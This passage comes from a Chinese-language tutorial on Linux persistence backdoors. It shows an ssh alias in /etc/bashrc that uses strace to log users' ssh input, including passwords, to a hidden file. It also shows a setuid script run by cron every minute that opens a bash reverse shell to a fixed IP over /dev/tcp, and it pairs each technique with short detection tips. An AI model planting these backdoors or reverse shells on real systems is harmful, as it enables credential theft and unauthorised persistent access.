 ![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917870442-d3a0dae3-c4eb-40c2-bb09-528a2c843116.png)



排查技巧：

```plain
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
```



# 6、strace后门

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```plain
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc
```

![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917927630-29ff6ddc-5e0d-4d56-8263-d78840bc09e0.png)



排查技巧：使用`alias`即可发现异常。

![img](../..../../_img/04-Linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%EF%BC%88%E5%90%8E%E9%97%A8%E7%AF%87%EF%BC%89/1656917934692-1489ee1c-5a4a-4678-a4cd-236a19fa021c.png)



**7、crontab反弹shell**

crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。



a、创建shell脚本，例如在/etc/evil.sh

```plain
#!/bin/bash
bash -i >& /dev/tcp/192.168.28.131/12345  0>&1
```



```
chmod +sx /etc/evil.sh
```



b、crontab -e 设置定时任务

```plain
#每一分钟执行一次
*/1 * * * * root /etc/evil.sh
```


